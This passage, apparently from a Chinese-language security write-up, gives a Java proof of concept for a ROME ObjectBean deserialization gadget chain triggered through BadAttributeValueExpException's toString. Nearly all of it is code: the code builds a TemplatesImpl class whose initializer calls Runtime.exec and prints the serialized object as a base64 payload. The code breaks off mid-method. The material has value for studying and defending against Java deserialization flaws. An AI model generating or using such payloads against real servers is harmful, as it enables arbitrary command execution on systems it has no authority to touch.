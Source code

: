 既然要调用到toString，在CC5中，我们知道可以去调用任意的toString

## POC2

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception{
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("a");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(cmd);
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        byte[] bytes = ctClass.toBytecode();
        byte[][] bytes1 = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes1);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        ObjectBean objectBean = new ObjectBean(Templates.class,templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("");
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,objectBean);
        
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(base64);
        System.out.println(base64.length());
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
```